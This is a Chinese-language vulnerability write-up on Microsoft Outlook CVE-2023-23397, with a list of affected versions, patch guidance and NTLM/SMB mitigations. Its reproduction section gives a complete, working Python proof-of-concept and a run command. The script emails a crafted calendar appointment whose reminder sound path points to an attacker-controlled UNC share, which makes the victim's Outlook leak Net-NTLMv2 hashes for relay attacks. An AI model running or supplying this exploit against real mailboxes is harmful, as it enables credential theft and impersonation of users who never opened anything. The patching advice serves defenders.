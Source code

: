# Microsoft Outlook 权限提升漏洞 CVE-2023-23397

# Microsoft Outlook 权限提升漏洞 CVE-2023-23397

## 漏洞描述

该漏洞存在于 Microsoft Outlook 中，是一个身份验证绕过漏洞。未经身份验证的远程攻击者仅通过向受影响的系统发送特制电子邮件，从而访问用户的Net-NTLMv2 哈希，进而可以在中继攻击中使用此哈希来冒充用户，从而有效地绕过身份验证。

## 漏洞影响

```
Microsoft Outlook 2016 (64-bit edition)
Microsoft Outlook 2013 Service Pack 1 (32-bit editions)
Microsoft Outlook 2013 RT Service Pack 1
Microsoft Outlook 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2019 for 32-bit editions
Microsoft 365 Apps for Enterprise for 32-bit Systems
Microsoft Office 2019 for 64-bit editions
Microsoft 365 Apps for Enterprise for 64-bit Systems
Microsoft Office LTSC 2021 for 64-bit editions
Microsoft Outlook 2016 (32-bit edition)
Microsoft Office LTSC 2021 for 32-bit editions
```

## 漏洞复现

exp：

```
python CVE-2023-23397.py --path '\\your-ip\'
```

```
import smtplib, datetime, argparse
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.application import MIMEApplication
from email.utils import COMMASPACE, formatdate
from independentsoft.msg import Message

## Mail configuration : change it !
smtp_server = "mail.example.com"
smtp_port = 587

sender_email = "attacker@mail.example.com"
sender_password = "P@ssw0rd"

recipients_email = ["victim@mail.example.com"]

class Email:
    def __init__(self, smtp_server, port, username, password, recipient):
        self.smtp_server = smtp_server
        self.port = port
        self.username = username
        self.password = password
        self.recipient = recipient

    def send(self, subject, body, attachment_path):
        msg = MIMEMultipart()
        msg['From'] = self.username
        msg['To'] = COMMASPACE.join(self.recipient)
        msg['Date'] = formatdate(localtime=True)
        msg['Subject'] = subject
        
        msg.attach(MIMEText(body))

        with open(attachment_path, 'rb') as f:
            part = MIMEApplication(f.read(), Name=attachment_path)
            part['Content-Disposition'] = f'attachment; filename="{attachment_path}"'
            msg.attach(part)

        try:
            server = smtplib.SMTP(self.smtp_server, self.port)
            server.starttls()
            server.login(self.username, self.password)
            server.sendmail(self.username, self.recipient, msg.as_string())
            server.quit()
            print("[+] Malicious appointment sent !")


        except Exception as e:
            print("[-] Error with SMTP server...", e)

parser = argparse.ArgumentParser(description='CVE-2023-23397 POC : send a malicious appointment to trigger NetNTLM authentication.')
parser.add_argument('-p', '--path', type=str, help='Local path to process', required=True)
args = parser.parse_args()

appointment = Message()
appointment.message_class = "IPM.Appointment"
appointment.subject = "CVE-2023-23397"
appointment.body = "New meeting now !"
appointment.location = "Paris"
appointment.appointment_start_time = datetime.datetime.now()
appointment.appointment_end_time = datetime.datetime.now()
appointment.reminder_override_default = True
appointment.reminder_sound_file = args.path
appointment.save("appointment.msg")

email = Email(smtp_server, smtp_port, sender_email, sender_password, recipients_email)

subject = "Hello There !"
body = "Important appointment !"
email.send(subject, body, "appointment.msg")
```

## 漏洞修复

目前微软官方已针对受支持的产品版本发布了修复该漏洞的安全补丁，建议受影响用户开启系统自动更新安装补丁进行防护。

注：由于网络问题、计算机环境问题等原因，Windows Update 的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。右键点击Windows 徽标，选择“设置(N)”，选择“更新和安全”-“Windows 更新”，查看该页面上的他提示信息，也可点击“查看更新历史记录”查看历史更新情况。

针对未成功安装更新补丁的情况，可直接下载离线安装包进行更新，链接如下：
https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2023-23397

临时防护措施：

若用户无法正常进行补丁修复，在不影响正常业务的情况下，可使用以下措施对漏洞进行防护：

1. 将用户添加到受保护的用户安全组，以防止使用 NTLM 作为身份验证机制。注意：该操作可能会对需要 NTLM 的应用程序造成一定影响。详情请参考：
   https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group
2. 用户可通过在网络中同时使用外围防火墙和本地防火墙，并通过 VPN 设置来阻止 TCP 445/SMB 从网络出站。注意：该操作将禁止发送 NTLM 身份验证消息到远程文件共享。

